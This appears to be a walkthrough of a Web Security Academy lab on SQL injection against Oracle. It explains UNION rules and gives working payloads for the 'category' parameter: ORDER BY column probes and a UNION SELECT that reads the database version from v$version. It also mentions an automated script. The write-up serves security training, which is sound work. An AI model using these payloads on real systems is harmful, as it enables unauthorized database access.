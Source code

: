 # SQL Injection Lab 03 - SQL injection attack, querying the database type and version on Oracle

## Manual Solution

### 1. What is UNION
- The UNION operator is used to combine the result-set of two or more SELECT statements. The UNION operator has a few rules:
   - Each SELECT statement within UNION must return the same number of columns.
   - The columns must have compatible data types.
   - The column order must be the same in every SELECT statement.

### 2. Access the lab in Web Security Academy

### 3. Determine the number of columns for UNION attack
- The ORDER BY keyword sorts the data based on the column you specify. If I use ORDER BY 3, the SQL query sorts the data by the third column. However, if the table consists of only two columns, the query will throw an error
- Use ORDER BY to find column count
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: Error (confirms 2 columns)

### 4. Extract database version
- Payload: `/filter?category=Gifts' UNION SELECT NULL,banner FROM v$version--`
   - This URL executes the following SQL query
   ```sql
   SELECT * FROM products WHERE category = 'Gifts' UNION SELECT NULL,banner FROM v$version--'
   ```
   - Result: Database version information displayed


## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_03.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)


